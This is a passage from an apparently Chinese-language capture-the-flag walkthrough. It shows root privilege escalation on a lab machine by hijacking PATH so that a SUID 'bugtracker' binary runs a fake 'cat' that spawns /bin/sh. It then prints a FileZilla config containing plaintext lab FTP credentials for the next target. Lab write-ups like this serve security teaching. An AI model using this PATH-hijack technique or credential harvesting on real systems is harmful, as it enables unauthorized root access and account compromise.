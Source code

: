 > 
观察发现 `cat /root/reports/`：


> 



```
export PATH=/tmp:$PATH				//将/tmp目录设置为环境变量
cd /tmp/							//切换到/tmp目录下
echo '/bin/sh' &gt; cat				//在此构造恶意的cat命令
chmod +x cat						//赋予执行权限

```

> 
这样bugtracker再次调用cat命令时实际上调用的是/tmp目录下的恶意的cat命令，我们运行一下bugtracker可以看出，此时robert用户临时具有了root权限，执行id命令发现只是robert用户的uid变为了root，不是真正的root用户


> 
然后可以找到/root目录下的root.txt拿到SYSTEM OWN的Flag (需要注意的是此时cat命令已被替换无法读取文件，可以使用more命令)


## 下一场景相关信息

> 
在/root/.config/filezilla目录下有一个FileZilla配置文件filezilla.xml，里面包含明文的FTP用户凭据ftpuser/mc@F1l3ZilL4，用于下一个靶机的渗透测试


> 
filezilla.xml内容


```
&lt;?xml version="1.0" encoding="UTF-8" standalone="yes" ?&gt;
&lt;FileZilla3&gt;
    &lt;RecentServers&gt;
        &lt;Server&gt;
            &lt;Host&gt;10.10.10.46&lt;/Host&gt;
            &lt;Port&gt;21&lt;/Port&gt;
            &lt;Protocol&gt;0&lt;/Protocol&gt;
            &lt;Type&gt;0&lt;/Type&gt;
            &lt;User&gt;ftpuser&lt;/User&gt;
            &lt;Pass&gt;mc@F1l3ZilL4&lt;/Pass&gt;
            &lt;Logontype&gt;1&lt;/Logontype&gt;
            &lt;TimezoneOffset&gt;0&lt;/TimezoneOffset&gt;
            &lt;PasvMode&gt;MODE_DEFAULT&lt;/PasvMode&gt;
            &lt;MaximumMultipleConnections&gt;0&lt;/MaximumMultipleConnections&gt;
            &lt;EncodingType&gt;Auto&lt;/EncodingType&gt;
            &lt;BypassProxy&gt;0&lt;/BypassProxy&gt;
        &lt;/Server&gt;
    &lt;/RecentServers&gt;
&lt;/FileZilla3&gt;

```
